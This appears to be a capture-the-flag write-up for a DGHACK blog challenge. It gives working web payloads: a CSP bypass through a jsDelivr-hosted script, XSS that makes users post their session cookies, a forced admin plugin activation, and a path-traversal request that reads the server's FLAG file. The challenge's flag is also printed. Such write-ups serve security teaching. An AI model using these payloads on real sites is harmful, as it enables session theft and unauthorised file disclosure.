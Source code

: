 ```
Trouvez le contenu du fichier FLAG présent à la racine du serveur.
```
I tried XSS on login, but that didn't work before of this CSP in the header:

```html
    <meta http-equiv="Content-Security-Policy" content="script-src https://cdn.jsdelivr.net/" />
```

We can bypass it using this script because the CDN is unsafe.

Let's try to steal cookies ?

We use this payload to force people to post their cookie as comment:

```javascript
  <script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script>
  <br csp="var xhr = new XMLHttpRequest(); xhr.open('POST', '/new-post', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('title=Hacked!&text=' + encodeURIComponent(document.cookie));">
```

We log as Johnny.
We send a message to admin with the same payload, because it doesn't seems to post his cookie...

And he does post it !

But we get rejected because our request doesn't come from localhost !

So we are going to force the admin to do it, with this payload:

```javascript
  <script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script>
  <br csp="var xhr = new XMLHttpRequest(); xhr.open('GET', '/activate-plugin/1', true); xhr.send();">
```

Template is activated.
Now we use the vuln that we find in the `https://github.com/jhonnyCtfSysdream/JhonnyTemplater/blob/main/JohnnyTemplater/__init__.py` file:
```python
f = open("app/texts/" + theme, 'r')
```

Looks like an LFI !

```
POST /new-post HTTP/1.1
[...]
theme=funny&submit-template=&title=&text=
```

We turn this to:
```
POST /new-post HTTP/1.1
[...]
theme=../../../../../../../FLAG&submit-template=&title=&text=
```

And we get the flag: `DGHACK{WellD0ne!Bl0ggingIsS0metimeRisky}`